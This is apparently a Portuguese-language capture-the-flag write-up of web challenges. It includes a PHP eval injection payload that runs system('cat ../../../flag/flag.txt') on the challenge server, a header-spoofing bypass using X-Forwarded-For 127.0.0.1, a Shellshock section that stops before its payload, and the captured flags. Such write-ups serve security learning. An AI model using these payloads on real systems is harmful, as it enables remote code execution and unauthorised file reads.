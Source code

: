 `ZUP-{n0_f1n4l_3_53mpr3_um4_p3551m4_1d314}`


## Web Security :computer: ##

### Simple Eval ###

Esse desafio nos apresenta o endereço http://18.231.79.49:8088/ o qual parece ser uma simples página html, porém com o comentário abaixo
```html
<!--
$str=@(string)$_GET['str'];
blockListFilter($block_list, $str);
eval('$str="'.addslashes($str).'";');
-->
```

OK, esse é um código vulnerável que pressupõe que precisamos usar aspas para programar em PHP e que a atribuição do parâmetro a uma variável faz o uso do eval ser uma boa ideia.
Atribuindo o código abaixo ao parâmetro str 

```php
${eval($_GET[chr(99)])}
```
e enviando código php na query string 'c' , conseguimos atingir a execução de código php no servidor (RCE)

Alguns comandos após chego na url final que possibilita a leitura da flag

```php
http://18.231.79.49:8088/?str=${eval($_GET[chr(99)])}&c=system('cat ../../../flag/flag.txt');
```

ZUP-{alkdjsEfdskljdaseAxcV==}


### My New Browser ###
Esse desafio nos da um endereço http://18.231.79.49:10080/ que retorna o texto abaixo

```html
This site best viewed in [Zup-Web-Browser] the best browser in the world!
```

HM...envio o request novamente, porém agora com o header `User-Agent: Zup-Web-Browser`
E ele me retorna uma mensagem um tanto engraçada kkk

```html
Get out of here, Hacker!! This page can only be accessed from the local client!
```

Refaço a requisição pela terceira vez, mas agora adicionando o header `X-Forwarded-For` com o valor `127.0.0.1` 
e por fim ele me retorna a flag ZUP-{klapaucius}


### 09/24/2014 ###

Ok, esse desafio nos da o endereço http://challenges.ctfd.io:30114/ e uma data. Uma data. Imagino que seja a data de uma falha importante e procuro por
isso no google: `CVE 2014-09-24`. Descubro uma falha conhecida como `shellshock`, uma baita falha no bash em servidores linux/mac.
Essa vulnerabilidade permite execução de código bash de forma remota, enviando esse código em um header como o `User-Agent`, por exemplo.
Duas requisições com o header User-Agent atribuído às linhas abaixo bastam para encontrar e ler a flag
